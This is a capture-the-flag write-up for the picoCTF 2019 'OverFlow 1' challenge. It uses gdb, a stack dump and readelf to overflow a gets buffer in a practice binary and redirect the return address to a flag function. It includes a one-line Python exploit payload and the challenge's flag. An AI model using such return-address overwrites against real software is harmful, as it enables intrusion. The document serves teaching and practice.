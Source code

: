 # OverFlow 1
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. [Source](vuln.c).

## Hint
Take control that return address  
Make sure your address is in Little Endian.

## Solution
Like last time, we have to overflow the return address. However, we have to write a specific value into it. If we open up the program with gdb (the GNU project debugger), we can see the assembly layout and certain addresses in the program:
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ gdb vuln
(some messages while opening up)
(gdb) disas main
Dump of assembler code for function main:
```
```asm
   0x0804869e <+0>:     lea    0x4(%esp),%ecx
   0x080486a2 <+4>:     and    $0xfffffff0,%esp
   0x080486a5 <+7>:     pushl  -0x4(%ecx)
   .
   .
   .
   0x080486fd <+95>:    add    $0x10,%esp
   0x08048700 <+98>:    call   0x804865f <vuln>
   0x08048705 <+103>:   mov    $0x0,%eax
```
We see that the vuln function is called. The `call` command pushes, or "saves", the address of the next instruction (0x08048705) onto the stack, and it will jump to `vuln`'s address (0x804865f). A `ret` function in vuln will pop from this saved address from the stack later and jump to it, thus continuing the function. We want to overwrite this return address. Now when we disassemble `vuln`:
```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
```
```asm
   0x0804865f <+0>:     push   %ebp
   0x08048660 <+1>:     mov    %esp,%ebp
   0x08048662 <+3>:     push   %ebx
   .
   .
   .
   0x08048677 <+24>:    push   %eax
   0x08048678 <+25>:    call   0x8048430 <gets@plt>
   0x0804867d <+30>:    add    $0x10,%esp
```
This program calls `gets` (last time it called `strcpy`). `gets` reads from stdin, and like `strcpy`, it doesn't check the size of the input, but it terminates when a newline character is reached(\x0a, the same as pressing "Enter" on a keyboard). We can input 64 bytes of a's (the size of the buffer) and see how close we are to the return address by analysing the stack with gdb:
```
(after inputting the a's)
(gdb) x/50x $esp
0xffb2ef20:     0xffb2ef30      0xf7f38000      0xffb2ef68      0x0804866b
0xffb2ef30:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef40:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef50:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef60:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef70:     0x08048800      0x0804a000      0xffb2ef98      0x08048705
.
.
.
```
There it is, the saved address 0x08048705 at 0xffb2ef7c. This means we need to overwrite 12 more bytes, and then add the return address in little endian, where we can use python's struct module to convert hexadecimal values into bytes, and overwrite it with the address of the flag function, which will read out the flag to us. We can find the `flag`'s address with `readelf` and `grep` the results:
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ readelf -s vuln | grep "flag"
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
```
Our payload looks like this:
```python -c "import struct; print 'a'*(64+12) + struct.pack('I', 0x080485e6)" | ./vuln```

## Details
Completed: *During competition*  
Done by: Cyril  
Flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5c0178710}`
